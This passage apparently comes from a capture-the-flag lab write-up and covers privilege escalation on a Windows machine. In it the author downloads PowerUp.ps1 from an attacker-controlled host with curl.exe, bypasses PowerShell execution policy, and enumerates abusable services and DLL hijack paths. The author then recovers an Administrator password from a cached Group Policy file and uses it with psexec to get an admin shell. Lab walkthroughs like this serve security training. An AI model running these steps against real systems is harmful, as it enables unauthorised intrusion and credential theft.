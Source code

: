 ## Privesc

- `systeminfo`
- Let's use wes to see what exploit we could use `python3 /opt/wesng/wes.py --color sysinfo.txt | grep -B 3 -A 5 "Privilege Vulnerability"` I will grep a few lines before and after to have the whole cve info
- I also want to try PowerUp before using any kernel exploit
- `curl.exe -o C:\Users\mssql-svc\Desktop\powerup.ps1 http://10.10.14.7/PowerUp.ps1`
- `powershell -ep bypass`
- `Import-Module .\PowerUp.ps1`
- `Invoke-AllChecks | Out-String -Width 4096`

```dos
Privilege   : SeImpersonatePrivilege
Attributes  : SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
TokenHandle : 2144
ProcessId   : 3456
Name        : 3456
Check       : Process Token Privileges

ServiceName   : UsoSvc
Path          : C:\Windows\system32\svchost.exe -k netsvcs -p
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'UsoSvc'
CanRestart    : True
Name          : UsoSvc
Check         : Modifiable Services

ModifiablePath    : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
IdentityReference : QUERIER\mssql-svc
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
%PATH%            : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
Name              : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
Check             : %PATH% .dll Hijacks
AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'

UnattendPath : C:\Windows\Panther\Unattend.xml
Name         : C:\Windows\Panther\Unattend.xml
Check        : Unattended Install Files

Changed   : {2019-01-28 23:12:48}
UserNames : {Administrator}
NewName   : [BLANK]
Passwords : {MyUnclesAreMarioAndLuigi!!1!}
File      : C:\ProgramData\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
Check     : Cached GPP Files
```
- We have a clear password for the Administrator `MyUnclesAreMarioAndLuigi!!1!`
- `python3 /opt/impacket/examples/psexec.py Administrator:'MyUnclesAreMarioAndLuigi!!1!'@10.10.10.125`
- We have an admin shell we can grab the final flag! `type C:\Users\Administrator\Desktop\root.txt`